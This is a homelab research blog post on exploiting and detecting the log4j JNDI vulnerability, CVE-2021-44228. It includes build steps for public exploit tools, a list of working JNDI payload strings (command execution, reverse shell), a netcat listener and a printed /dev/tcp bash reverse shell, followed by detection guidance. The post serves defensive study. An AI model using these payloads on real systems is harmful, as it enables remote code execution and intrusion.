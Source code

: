 ```yaml
---
title: log4j JNDI Exploitation
date: 2021-12-10
categories: []
tags: [homelab, offsec, research, purpleteam]
---
```

# Situation
A [remote code execution (RCE) bug was found in log4j](https://www.lunasec.io/docs/blog/log4j-zero-day/). [CVE 2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) has been assigned to it. The vulnerability lies in how log4j interprets Java Naming and Directory Interface (JNDI) URLs. JNDI lets an application look up a service. An attacker can craft a string that looks like "${jndi:proto://host/a}" where `proto` is ldap or rmi, and log4j will connect to the `host` to retrieve `a`, which would specify how to process the log entry. However, `a` can instead provide Java bytecode that log4j will execute. 

log4j is used in [a lot of places](https://github.com/YfryTchsGD/Log4jAttackSurface). The attacker can submit malicious input to multiple places. This includes: in a web form, as a user-agent, by renaming their Tesla, or sending a chat in Minecraft. Where the vulnerability manifests depends on how that organization's infrastructure is configured. For [example](https://twitter.com/morimi01918178/status/1469328940313759744), it looks like naming your Airpods in the right format can induce a remote connection from Apple's iCloud servers. Airpods are synced across all devices that a user owns via iCloud, so clearly log4j is logging the Airpods name at some point during the sync process. Minecraft servers, and every user connected to the server, are getting popped because both the client and server are using log4j to log chat messages.

In the rest of this blog, we'll look at getting a Proof of Concept (PoC) running and what indicators we can extract from the networks and endpoints.


# Get the PoC running
The first PoC I found was from [tangxiaofeng7](https://github.com/tangxiaofeng7/apache-log4j-poc). This has a vulnerable "app" that simply calls log4j with a malicious endpoint. The Github page shows macOS Calculator.app being run as the payload. I'm going to use Ubuntu Linux as my test system, so I need to either figure out how to change payload or find a different way of running the payloads. During research, I find [JNDIExploit](https://github.com/0x727/JNDIExploit). log4j is the "access" vector, but the actual bad thing happens due to JNDI. Let's use that.

1. Set up a new VM, Ubuntu 18.04. We need a Java Dev Kit and Maven. Clone the repo.

```
apt install openjdk-8-jdk maven
git clone https://github.com/tangxiaofeng7/apache-log4j-poc.git
git clone https://github.com/0x727/JNDIExploit
```

2. Build the projects
Spent way more time than I'd like trying to figure out how Java projects work.

```
cd JNDIExploit/
mvn package
cd target
java -jar JNDIExploit-1.3-SNAPSHOT.jar -i 0.0.0.0
```

`ss -anpt` shows 1389/tcp and 3456/tcp running, great success. 1389 is implementing an LDAP endpoint that will "instruct" the vulnerable log4j function to connect to another location and execute the bytecode found there. 3456 is running an HTTP server that hosts the malicious bytecode. Unfortunately, a straight build does not work for the log4j poc. Had quite a few problems getting org.apache.logging.log4j to load. Seems like there are several methods to get it work, but here's what I did.

```
cd ~/apache-log4j-poc
vim pom.xml
```

The POM file is a manifest for the Maven project. We add the maven-shade-plugin to generate an Uber JAR that includes log4j jars.

```
<build>
	<plugins>
	<plugin>
		<groupId>org.apache.maven.plugins</groupId>
		<artifactId>maven-shade-plugin</artifactId>
		<version>2.4.1</version>
		<executions>
	  		<execution>
				<phase>package</phase>
				<goals>
		  		<goal>shade</goal>
				</goals>
				<configuration>
		  		<transformers>
					<transformer implementation="org.apache.maven.plugins.shade.resource.ManifestResourceTransformer">
			  		<mainClass>log4j</mainClass>
					</transformer>
		  		</transformers>
				</configuration>
	  		</execution>
		</executions>
	  </plugin>
	</plugins>
</build>
```

Now we can build with `mvn clean package`. This removes everything in a `target` directory and then packages the project into a .jar. We can then execute it with `java -jar target/log4j-rce-1.0-SNAPSHOT.jar`. If we do, wee see the message 

```
01:27:16.300 [main] ERROR log4j - ${jndi:ldap://127.0.0.1:1389/a}
```

And from the terminal window in which JNDIExploit is running from, we see

```
[+] Received LDAP Query: a
[!] Invalid LDAP Query: a
```

If we run `JNDIExploit-1.3-SNAPSHOT.jar -u` we see the list of endpoints we can specify. We need to match the `a` value to a legitimate endpoint that JDNIExploit is serving up. Edit `apache-log4j-poc/src/main/java/log4j.java` to call something that legit. Inside of the main class, I put a bunch of payloads so I can later compare what happens.

```
logger.error("${jndi:ldap://127.0.0.1:1389/Basic/Command/whoami}");
logger.error("${jndi:ldap://127.0.0.1:1389/Basic/Dnslog/---.canarytokens.com}"); // get your own token at https://canarytokens.org/generate#
logger.error("${jndi:ldap://127.0.0.1:1389/Basic/Command/Base64/d2hvYW1pCg==}");   // whoami
logger.error("${jndi:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444}");
logger.error("${jndi:ldap://127.0.0.1:1389/Basic/TomcatEcho}");
logger.error("${jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK1/Dnslog/---.canarytokens.com}");
logger.error("${jndi:ldap://127.0.0.1:1389/TomcatBypass/Dnslog/---.canarytokens.com}");
logger.error("${jndi:ldap://127.0.0.1:1389/WebsphereBypass/Upload/Dnslog/---.canarytokens.com}");
logger.error("${jndi:ldap://127.0.0.1:1389/TomcatBypass/Dnslog/---.canarytokens.com}");
```

Once edited, we call `mvn clean package` again and then re-run the jar. This time, we see errors like `01:31:06.557 [main] ERROR log4j - Reference Class Name: foo`, however we get successful connections to JDNIExploit that look like:

```
[+] Sending LDAP ResourceRef result for Basic/Command/Base64/d2hvYW1pCg== with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/d2hvYW1pCg== redirecting to http://0.0.0.0:3456/ExploittvsunipOlR.class
```

If we had a packet capture running at this point, we'd see that the LDAP server is being connected to, but that HTTP server running on 3456/tcp is not being connected to. It turns out we've known [since 2016](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) that JDNI is a vector for exploitation, and [since Java 8u191](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US) the default has been to not connect to URLs provided in a JNDI string. So we need to add `com.sun.jndi.ldap.object.trustURLCodebase` to log4j.java, before we call logger.

Now everything should work. I'll start tcpdump to capture packets before re-running the vulnerable jar (`tcpdump -i lo -s 65535 -w /home/user/ldap.pcap tcp port 1389 or tcp port 3456`), and start a netcat listener to catch the reverse shell (`nc -nvlp 4444`). This time, both the LDAP and HTTP servers receive connections, you will trigger the DNS canary token, and receive a reverse shell to your listener.

# Observables
How can we detect or hunt for this activity?

The overall attack flow (killchain) is:

1. Attacker provides “${jndi:ldap://host/endpoint}“ to an input field
2. Vulnerable machine connects to supplied proto://host/endpoint
3. The host from step 2 specifies bytecode to retrieve and execute, we'll call it proto2://host2/endpoint2
4. Vulnerable machine connects to the proto2://host2/endpoint2
5. Payload java .class is transferred
6. Vulnerable machine executes .class

We can see this in the PCAP
![log4j exploitation pcap](/assets/img/log4j-pcap.png)

Can we detect (1)? The whole purpose of log4j is to log, so the malicious input is going _somewhere_. Is that log being centralized and indexed? Can we prevent the attack at (1)? Maybe. If the input vector is in line with something like a Web App Firewall (WAF), you might be able to block it before it gets to the vulnerable function. However, not every implementation has that opportunity, and even if you do, there are a lot of [permutations](https://twitter.com/stereotype32/status/1469313856229228544?s=20) that could make blocking with a WAR hard.

Can we detect (2)? By default, yes we should be able to. LDAP normally occurs over 389/tcp. However, we saw with JNDIExploit that it was running LDAP on 1389. Changing the port can obscure the traffic, but a protocol dissector can still identify LDAP since it is clear text. We can inspect outgoing traffic for LDAP using a tool like Suricata, and potentially block once it is observed.

![ldap traffic in Wireshark](/assets/img/ldap-wireshark.png)

(3) happens on the attacker infrastructure.

Can we detect (4)? By default, yes we should be able to. HTTP is cleartext. We can look for HTTP GET verbs for *.class. That's pretty low-fidelity, but until you have the vulnerability patched, it might be worth investigating through the noise. Similarly, for step (5) we can use zeek to look for transferred files.

Can we detect (6)? This is the tough one. On one hand, you can detect "weak" attacks. Here  is the process list (`ps -efwwwH`) from the reverse shell:

```
root      9171     1  0 01:38 pts/4    00:00:00   /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.10.146/4444 0>&1
root      9172  9171  0 01:38 pts/4    00:00:00     /bin/bash -i
root      9194  9172  0 01:38 pts/4    00:00:00       ps -efwwwH
```

The clear indicator is the [/dev/tcp](https://www.gnucitizen.org/blog/reverse-shell-with-bash/) trick to create a TCP connection. Another indicator is bash as a child of init. This may be implementation specific. The PoC is a single function .jar file. Once the java process exits, its children (bash in this case) are reaped and inherited by init. On a "real" server application, the java process is not likely to exit after log4j is called, so the process tree will look different. What we should see in that case is java as the parent of bash.
 
That's all for now. I'll update as I learn more.